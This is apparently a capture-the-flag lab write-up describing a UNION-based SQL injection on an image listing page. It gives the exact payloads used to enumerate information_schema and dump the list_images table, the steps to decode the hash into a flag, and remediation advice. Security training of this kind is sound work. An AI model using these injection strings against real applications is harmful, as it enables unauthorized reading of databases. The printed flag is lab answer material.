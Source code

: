 # Breach: SQL Injection on Image Listing

## Discovery & Exploit

On a page that displays images, we noticed the same SQL injection vector as seen in the member listing page.

Submitting the input:

``0=0``

revealed several image entries, including:

- **Title**: Hack me ?  
- **URL**: borntosec.ddns.net/images.png

This hinted that a SQL injection might again be possible via UNION SELECT.

We confirmed this using:

``0=0 UNION SELECT table_name, column_name FROM information_schema.columns``

Among the large volume of results, we identified the following structure:

- **Table**: list_images
- **Columns**: id, url, title, comment

We then queried:

``0=0 UNION SELECT url, comment FROM list_images``

This revealed the following:

- **URL**: borntosec.ddns.net/images.png  
- **Comment**: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : `1928e8083cf461a51303633093573c46`

We decoded the MD5 hash to:

``albatroz``

Then hashed it using SHA256 to obtain the final flag:

``f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188``

## Vulnerability Details

This is a classic **UNION-based SQL Injection**. The application fails to sanitize user input and allows SQL code to be appended to queries.

This gives attackers read access to:

- The database schema via `information_schema`
- The contents of internal application tables

References:

- https://owasp.org/www-community/attacks/SQL_Injection
- https://portswigger.net/web-security/sql-injection/union-attacks

## Remediation

1. Use parameterized queries or ORM libraries to prevent direct SQL injection.
2. Sanitize all user input before including it in SQL queries.
3. Limit database access rights to prevent information leakage.
4. Avoid displaying database errors or debug content in production environments.

---

<table width="100%">
  <tr>
    <td align="left"><a href="../../Breach07_SpoofedHeaderAccessBypass/Ressources/writeup.md">← Previous: Breach07</a></td>
    <td align="center"><a href="../../README.md">↑ Back to README</a></td>
    <td align="right"><a href="../../Breach09_SQLi_DeepEnumerationFlagRebuild/Ressources/writeup.md">Next: Breach09 →</a></td>
  </tr>
</table>
